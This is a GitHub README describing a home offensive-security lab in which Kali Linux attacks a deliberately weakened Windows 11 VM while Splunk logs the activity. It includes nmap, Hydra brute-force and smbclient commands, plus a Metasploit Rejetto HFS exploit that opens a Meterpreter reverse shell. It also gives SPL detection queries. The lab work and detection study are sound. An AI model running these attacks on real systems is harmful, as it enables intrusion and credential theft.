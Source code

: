 # Kali x Windows 11 Offensive Security Lab

This project demonstrates a home-based penetration testing lab using Kali Linux (attacker) and Windows 11 (victim). It showcases basic offensive security skills including network scanning, brute-force attacks, exploitation, and log monitoring using Splunk.

---

## Lab Setup

### Machines Used:

| Role      | OS           | Purpose                 |
|-----------|--------------|-------------------------|
| Attacker  | Kali Linux   | Penetration testing     |
| Victim    | Windows 11 | Deliberately misconfigured |

### Virtualization:

- Software: [VirtualBox](https://www.virtualbox.org/)
- Network: Host-only Adapter (192.168.56.0/24)
- SSH/FTP ports exposed locally for testing

---

## Intentional Vulnerabilities on Windows 11

| Vulnerability | Description | Purpose |
|---------------|-------------|---------|
|  Weak RDP Credentials | `john : password` | Allows brute-force over RDP |
|  Public SMB Share | Guest-accessible share with no password | Allows anonymous access or password brute-force |
|  Fake Login Page | PHP login form that logs credentials in plain text | Web-based brute-force target for Hydra |
|  Rejetto HFS v2.3 | Exploitable HTTP file server | Known remote code execution vulnerability |
|  Logging Enabled | Logs forwarded to Splunk | Detection and monitoring of attacks |

---

##  Logging with Splunk

- Installed **Splunk Enterprise** directly on Windows 11
- Logs collected from:
  - Windows Security Logs
  - PowerShell Logs
  - System Logs
  - Sysmon (optional) (was considered but not used in this test — would be useful for deeper process tracing in future setups.)

### Enabled via `gpedit.msc`:
- Audit Logon Events
- Audit Process Tracking
- PowerShell Script Block Logging
- Module Logging
- Transcription

Splunk Web UI accessible at: [http://localhost:8000](http://localhost:8000)

---

##  Attacks Performed from Kali Linux

### 1. Nmap - Network Reconnaissance
**Tool:** `nmap`  
**Command:**
```bash
nmap -sn 192.168.56.0/24
nmap -sC -sV <Windows IP>
```

**Purpose: Identify open ports, services, and OS info. Discovered:**

* Port 80 (HTTP)

* Port 445 (SMB)

* Port 3389 (RDP)

### 2. Hydra - Brute Force Attack
**Brute-force RDP login**

Command:

```bash
hydra -t 4 -V -f -l john -P /usr/share/wordlists/rockyou.txt rdp://<Windows IP>
```
Goal: Test login credentials over RDP. Successfully found weak credentials.

**Web Form Login Attack**

Target: Custom PHP login page hosted on XAMPP (http://<Windows IP>/login.html)

Command:

```bash

hydra -l admin -P /usr/share/wordlists/rockyou.txt <Windows IP> http-post-form "/check.php:username=^USER^&password=^PASS^:Wrong credentials"
```
Result: Hydra successfully cracked default weak login.

## 3. SMB - Anonymous File Share Access
Tool: smbclient

Command:

```bash

smbclient //<Windows IP>/share -N
```
Result: Full access to shared folder with no credentials. Able to read/write files as guest.

## 4. Metasploit - Exploiting Rejetto HFS
Service: Rejetto HTTP File Server v2.3

Tool: metasploit-framework

Exploit Used: exploit/windows/http/rejetto_hfs_exec

Command (inside msfconsole):

```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <Windows IP>
set RPORT 80
set TARGET 0
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Kali IP>
set LPORT 4444
run
```
Result: Achieved a Meterpreter reverse shell on the Windows 11 machine via known vulnerability in Rejetto HFS v2.3. 
Defender was disabled to ensure stable reverse shell during exploitation.


##  Log Monitoring with Splunk

During all attacks, logs were generated and observed in Splunk:

* Failed/Successful logins (EventCode 4624 / 4625)

* RDP authentication events

* PowerShell activity logs (EventCode 4104)

* Process creation logs (EventCode 4688)

* Metasploit meterpreter sessions (seen via spawned suspicious processes)

Example SPL Queries:

```bash
index=* EventCode=4625
index=* sourcetype=WinEventLog:Security EventCode=4688
index=* source="WinEventLog:Microsoft-Windows-PowerShell/Operational"
```

**What I Learned**

* How to safely simulate and exploit common vulnerabilities

* How to use tools like Nmap, Hydra and metasploit

* How attackers leave traces in system logs

* How to use Splunk to detect unauthorized access

* How to document and present cybersecurity projects professionally

**Next Steps**


* Add more vulnerable services (e.g., MySQL, Redis)

* Try privilege escalation post-exploitation

* Automate some attacks with scripts

* Connect Splunk to a SIEM pipeline 



**Want to collab or ask questions?**

* [LinkedIn](https://www.linkedin.com/in/klaudija-balsyte-60b386251/)

* [Github](https://github.com/shoganaiix)


